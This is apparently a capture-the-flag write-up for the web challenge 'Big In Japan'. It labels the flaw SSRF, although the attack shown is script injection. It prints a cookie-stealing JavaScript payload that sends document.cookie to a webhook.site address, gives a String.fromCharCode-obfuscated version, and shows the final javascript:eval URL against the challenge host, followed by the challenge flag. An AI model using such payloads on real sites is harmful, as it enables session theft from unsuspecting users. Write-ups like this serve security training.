

# Big In Japan

- **Category:** Web  
---

The challenge is based on SSRF vuln.

We injecting this payload, to the insecure url parameter: 
```
location.href='https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb?data=' + document.cookie;
```

We obufacte this by this way:
```
String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,98,57,56,52,53,100,48,101,45,52,54,50,52,45,52,101,101,55,45,56,57,99,57,45,57,48,98,102,100,50,98,49,100,51,101,98,63,100,97,116,97,61,39,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59
```

And then, the final payload is:
```
https://big-in-japan.appsecil.ctf.today/?url=jaVasCriPt:eval(String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,98,57,56,52,53,100,48,101,45,52,54,50,52,45,52,101,101,55,45,56,57,99,57,45,57,48,98,102,100,50,98,49,100,51,101,98,63,100,97,116,97,61,39,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59))
```

And the image, from the webhook site:




The flag is `AppSec-IL{omedetto}`